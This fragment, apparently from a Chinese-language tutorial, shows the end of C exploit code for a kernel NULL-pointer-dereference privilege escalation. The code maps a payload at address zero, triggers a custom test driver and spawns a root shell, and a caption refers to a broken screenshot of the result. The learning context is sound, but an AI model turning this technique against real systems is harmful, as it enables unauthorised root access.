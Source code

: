 ```
}
	printf("addr finished: %x!\n",addr);
	system("head -n10 /proc/$PPID/maps");
	printf("data at NULL: 0x%x\n", *(unsigned long*)0);
	
	memcpy(0,payload,sizeof(payload));
	printf("data at NULL:0x%x\n", *(unsigned long*)0);
	fd = open("/proc/helloworlddriver", 0);
	char* buf[20];
	read(fd,buf,20);
	system("/bin/sh");

}

```
提权效果示意图
![图挂了](get_root.png)
